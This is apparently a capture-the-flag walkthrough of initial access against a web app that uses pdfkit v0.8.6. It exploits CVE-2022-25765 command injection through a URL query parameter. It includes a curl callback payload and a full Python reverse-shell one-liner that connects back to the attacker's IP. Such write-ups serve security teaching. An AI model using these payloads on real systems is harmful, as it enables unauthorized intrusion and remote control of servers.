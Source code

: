 ### Initial Access

My idea is to upload a reverse shell into my web server, forcing the web server to download it. I first tried to create a bash script to just output ```whoami```, but when This was uploaded to the web server, the usual happened - this was downloaded as a PDF, but the file was not executed. For now, it does not appear that this will work.

Let’s examine the PDF file generated. A file called ```nvsfi9fiq0z5mhmsj6oqxtstlqe4tq60.pdf``` was created. This file could contain useful metadata, which we now examine with ```exiftool```.

##### Command:
> exiftool nvsfi9fiq0z5mhmsj6oqxtstlqe4tq60.pdf

```
ExifTool Version Number     	: 12.16
File Name                   	: nvsfi9fiq0z5mhmsj6oqxtstlqe4tq60.pdf
Directory                   	: .
File Size                   	: 18 KiB
File Modification Date/Time 	: 2022:12:22 21:40:10-05:00
File Access Date/Time       	: 2022:12:22 21:40:10-05:00
File Inode Change Date/Time 	: 2022:12:22 21:40:12-05:00
File Permissions            	: rw-r--r--
File Type                   	: PDF
File Type Extension         	: pdf
MIME Type                   	: application/pdf
PDF Version                 	: 1.4
Linearized                  	: No
Page Count                  	: 1
Creator                     	: Generated by pdfkit v0.8.6
```

This web server uses ```pdfkit v0.8.6``` to do the PDF conversion. Upon a Google search, there is an exploit for this version of pdfkit - it is vulnerable to command injection. Inputs to Pdfkit are not properly sanitized, and query string parameters in URLs are run as commands. This exploit is [CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765), and [Snyk have some PoCs](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795).

To see if this server is vulnerable, we can enter a fake URL, and inject a command into the parameter which attempts to get our web server using ```curl```. If we see a hit on the web server, we will know that this has executed.

##### Payload:
>http://example.com/?name=#{'%20`curl -XGET [my IP]'}

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
[target] - - [22/Dec/2022 21:58:42] "GET / HTTP/1.1" 200 -
```

As expected, we see a hit on our web server - the vulnerable server executed our command, and so is vulnerable to command injection. We can now create a reverse shell. I used a Python shell taken from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

##### Payload:
>http://[my ip]/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[my ip]",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
